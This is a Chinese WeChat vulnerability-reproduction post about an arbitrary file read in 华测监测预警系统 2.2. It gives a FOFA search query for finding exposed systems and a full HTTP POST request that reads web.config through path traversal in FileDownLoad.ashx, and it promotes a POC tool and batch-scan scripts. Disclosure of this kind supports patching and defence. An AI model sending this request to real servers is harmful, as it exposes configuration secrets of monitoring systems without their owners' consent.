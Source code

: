 #  ​华测监测预警系统 2.2 存在任意文件读取漏洞 附POC   
原创 南风徐来  南风漏洞复现文库   2023-10-09 23:00  
  
华测监测预警系统 2.2 存在任意文件读取漏洞 附POC  
#   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 华测监测预警系统 2.2 简介  
  
微信公众号搜索：南风漏洞复现文库
该文章 南风漏洞复现文库 公众号首发  
  
华测监测预警系统是一套科学完善的地质灾害监测预警平台，实现了地质灾害防治管理的科学化、信息化、标准化和可视化。  
## 2.漏洞描述  
  
华测监测预警系统 2.2 存在任意文件读取漏洞，通过该漏洞可以读取敏感信息文件。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
华测监测预警系统 2.2   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y6adP0o9SYZnqiaq8PYTmuwGdjicJR2kDicyHqVDjxHsYAoccvckWjrIwCfibUicia5KUPZDcmKKVxCkVg/640?wx_fmt=jpeg "")  
  
## 4.fofa查询语句  
  
app="华测监测预警系统2.2"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/Handler/FileDownLoad.ashx  
  
漏洞数据包：  
```
POST /Handler/FileDownLoad.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

filename=1&filepath=..%2F..%2Fweb.config

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y6adP0o9SYZnqiaq8PYTmuw5q6paVlSNTFKVZfBWneFKibJfqPiac2hQfWt2G2kzW2s3clY0gapJTfQ/640?wx_fmt=jpeg "")  
## 6.POC&EXP  
  
关注公众号  南风漏洞复现文库 并回复  漏洞复现10  即可获得该POC工具下载地址：   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y6adP0o9SYZnqiaq8PYTmuw6r8TdeibbJezLQVzuGhbPDncDdubNBynqa14X605s95pev1hjBibsF1g/640?wx_fmt=jpeg "")  
  
  
本期漏洞及往期漏洞的nuclei批量扫描脚本已经上传知识星球：南风网络安全   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y6adP0o9SYZnqiaq8PYTmuwRZWcUHYaHQ9fc0URpicG3JBmRR1FAq8dzJJkMfx7YVibe2CFbpicbtJNg/640?wx_fmt=jpeg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3Y6adP0o9SYZnqiaq8PYTmuwfYREqNSD3Bw9jgbUVHiaXMPSzhbuVYoQIVVVLrKK6RHWYbtIf9tRzhA/640?wx_fmt=jpeg "")  
## 7.整改意见  
  
关注厂商更新补丁 https://www.huace.cn/  
## 8.往期回顾  
  
  
[用友移动管理系统存在任意文件上传漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484261&idx=1&sn=2b85c1532d48945fd16b6769e00a2237&chksm=974b8e62a03c0774aec5d4f9a59c69020365e8549d0b4bd70475a23fbdf40b698eb4b2af3b71&scene=21#wechat_redirect)  
  
  
[金盘图书馆微信管理平台存在敏感信息泄露漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484248&idx=1&sn=282f2a7af27fb7d720897f33ae06b898&chksm=974b8e5fa03c0749d653960b23d929651640da9dd11c5936fea6a39029926da66a133f7610ff&scene=21#wechat_redirect)  
  
  

